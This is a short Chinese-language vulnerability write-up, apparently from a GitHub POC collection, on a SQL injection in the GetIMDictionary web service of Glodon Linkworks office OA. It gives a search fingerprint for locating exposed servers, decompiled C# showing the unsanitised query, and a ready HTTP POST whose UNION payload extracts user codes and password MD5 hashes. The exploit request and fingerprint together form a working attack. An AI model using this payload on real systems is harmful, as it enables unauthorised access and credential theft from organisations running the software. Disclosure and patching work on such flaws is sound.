


# 广联达 Linkworks GetIMDictionary SQL注入漏洞

## 漏洞描述

广联达 Linkworks办公OA GetIMDictionary接口存在SQL注入漏洞，发送请求包后可以获取数据库中的敏感信息

## 漏洞影响

广联达 Linkworks

## 网络测绘

```
web.body="/Services/Identification/"
```

## 漏洞复现

登陆页面


```
// GTP.IM.Services.Config.WebSite.WebService.IM.Config.ConfigService
// Token: 0x06000018 RID: 24 RVA: 0x00004148 File Offset: 0x00002348
[WebMethod(Description = "得到IM系统配置")]
public string GetIMDictionary(string key)
{
	string str = string.Empty;
	ISysConfigService service = ServiceFactory.GetService<ISysConfigService>();
	StringBuilder stringBuilder = new StringBuilder();
	stringBuilder.AppendFormat("select F_VALUE from T_IM_DICTIONARY where f_key='{0}';", key);
	DataSet dataSet = GSqlDataAccess.SelectDataSet(service.DataSourceName, stringBuilder.ToString(), new DataParameter[0]);
	if (dataSet != null && dataSet.Tables.Count > 0 && dataSet.Tables[0] != null)
	{
		foreach (object obj in dataSet.Tables[0].Rows)
		{
			DataRow dataRow = (DataRow)obj;
			str = dataRow["F_VALUE"].ToString();
		}
	}
	StringBuilder stringBuilder2 = new StringBuilder();
	stringBuilder2.Append("<?xml version=\"1.0\" encoding=\"utf-8\"?>");
	stringBuilder2.Append("<result  value=\"" + str + "\" >");
	stringBuilder2.Append("</result>");
	return stringBuilder2.ToString();
}
```



验证POC

```
POST /Webservice/IM/Config/ConfigService.asmx/GetIMDictionary HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded

key=1' UNION ALL SELECT top 1 concat(F_CODE,':',F_PWD_MD5) from T_ORG_USER --
```

